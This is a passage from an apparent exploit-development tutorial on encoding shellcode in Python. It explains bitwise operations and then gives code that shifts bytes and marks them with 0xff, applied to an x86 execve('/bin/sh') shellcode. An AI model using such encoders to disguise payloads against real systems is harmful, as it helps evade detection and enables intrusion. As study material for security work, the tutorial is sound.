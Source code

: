 For example, take the operands 12 and 10 and then perform a bitwise `AND` on them to get 8:

`1100` **AND** `1010` = `1000` 

Starting on each number's right and moving left:

`0` **AND** `0` = `0`

`0` **AND** `1` = `0`

`1` **AND** `0` = `0`

`1` **AND** `1` = `1`

For more practice, play with this [calculator](https://www.rapidtables.com/calc/math/binary-calculator.html). 

At this point we know fundamentally how python is working and what a bitwise logical operation entails. We can research the other operators and figure out how they do their operations. Now we can begin encoding our shellcode. 

## Encoder

For our encoder, let's keep things relatively simple. Our encoding process will do the following:
+ if the decimal equivalent of our hex segment is less than `128`, we will shift its bits to the left one slot. As you can probably figure out, if we were to do this with a value of `128` or higher, shifting its bits to the left even one spot would increase its value to a minimum of `256` which breaks our scheme. 
+ lastly, we will inject some random bytes into our code at a known interval so that we can later delete those same bytes since the interval is known. In simpler terms: if I know every other byte is fake, I'll make my decoder delete every other byte. 

### Step 1 -- Bit Shift

In order to mark which bytes we are shifting we will prepend a `0xff` to them so that later when we decode, we know which ones were shifted. 

```python
byteObject = (b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")
encode = ""

for x in bytearray(byteObject):
	if x < 128:
		x = x << 1
		encode += '\\xff'

	encode += "\\x"
	encode += '%02x'%x
		

print(encode)
```

Output
